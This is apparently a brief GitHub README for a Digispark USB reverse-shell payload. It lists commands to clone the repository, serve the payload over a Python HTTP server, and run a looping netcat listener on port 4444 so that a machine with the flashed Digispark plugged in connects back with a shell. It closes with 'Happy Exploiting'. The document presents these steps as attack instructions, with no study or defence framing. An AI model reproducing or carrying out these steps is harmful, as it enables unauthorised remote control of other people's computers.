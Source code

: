 ## How to use this reverse shell payload

1. `git clone https://github.com/Samuel20354/Digispark_scripts`
2. `cd Digispark_scripts/Reverse Shell (NetCat)`
3. `python -m SimpleHTTPServer 8000`
4. Open a new ternimal window then:
5. `while true; do nc -l -p 4444; done`
6. Put the new digispark code onto it and done! Happy Exploiting